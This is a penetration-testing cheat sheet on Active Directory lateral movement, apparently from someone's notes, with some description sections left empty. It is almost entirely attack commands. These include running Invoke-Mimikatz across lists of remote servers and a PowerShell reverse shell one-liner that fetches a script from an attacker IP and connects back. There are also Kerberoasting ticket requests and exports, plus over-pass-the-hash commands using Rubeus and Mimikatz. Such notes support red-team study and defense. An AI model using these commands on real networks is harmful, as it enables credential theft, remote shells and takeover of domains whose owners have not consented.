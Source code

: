 # AD - Lateral Movement / Connections

## **Basics**

**PowerShell Remoting**

* Its like psexec on steroids
* Enabled by default on Server 2012 and newer
* May need to enable remoting Enable-PSRemoting (admin privs required) e.g Win10
* You get an elevated shell if admin creds are use - so a lot of UAC Issues are not relevant
* Port 5985/5986 (SSL Encrypted) - is used (based on WinRM)
* One-To-One or One-To-Many (non-interactive, executes parallely)&#x20;
* Credentials are not left on target unless CredSSP/Unconstraned Delegation?
* Runs in process "wsmprovhost" and is stateful

## **Connections / PowerShellRemoting**

**Access C disk of a computer (check local admin)**\
ls \\\\\[hostname]\c$

**Connect to machine with administrator privs**\
****Enter-PSSession -Computername

**Save and use sessions of a machine**\
****$sess = New-PSSession -Computername hostname.local\
Enter-PSSession $sess

**Execute commands on a machine (non-interactive)**\
Invoke-Command -Scriptblock {whoami} -Computername (Get-Content \<list-of-servers-file>) \
Invoke-Command -Computername hostname -Scriptblock {whoami;hostname}

**Execute script on a machine**\
****Invoke-Command -Computername (Get-Content \<list-of-servers-file>) -FilePath  C:\scripty\a.ps1\
Invoke-Command -FilePath $sess

&#x20; **Execute locally loaded function on a list of remote machines**\
Invoke-Command -Scriptblock ${function:} -Computername (Get-Content \<list\_of\_servers>)\
Invoke-Command -ScriptBlock ${function:Invoke-Mimikatz} -Computername (Get-Content \<list\_of\_servers>)

**Copy script to other server**\
****Copy-Item .\Invoke-MimikatzEx.ps1 \\\hostname\c$\\'Program Files'

**Powershell reverse shell**\
powershell.exe iex (iwr http://xx.xx.xx.xx/Invoke-PowerShellTcp.ps1 -UseBasicParsing);reverse -Reverse -IPAddress xx.xx.xx.xx -Port 4000\
****

```
```

## **Kerberoasting**

### **Description**

### **Attack commands**

**See existing tickets**\
klist

**Remove all tickets**\
****klist purge

**Request a kerberos service ticket for a specific SPN - output Hashcat format**\
****Powerview - **** Request-SPNTicket -SPN "name/target.domain.local" \[-OutputFormat JTR]

**Manually**\
Add-Type -AssemblyName System.IdentityModel\
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "name/target.domain.local"

**Dump the ticket**\
Invoke-Mimikatz -Command '"kerberos::list /export"'

\=> Now Crack\


## Over-Pass the Hash <a href="#over-pass-the-hash" id="over-pass-the-hash"></a>

### Description



### Attack commands

Rubeus.exe asktgt /user:USER < /rc4:HASH | /aes128:HASH | /aes256:HASH> \[/domain:DOMAIN] \[/opsec] /ptt

sekurlsa::pth /user:Administrator /domain:target.domain.local < /ntlm:hash | /aes256:hash> /run:powershell.exe



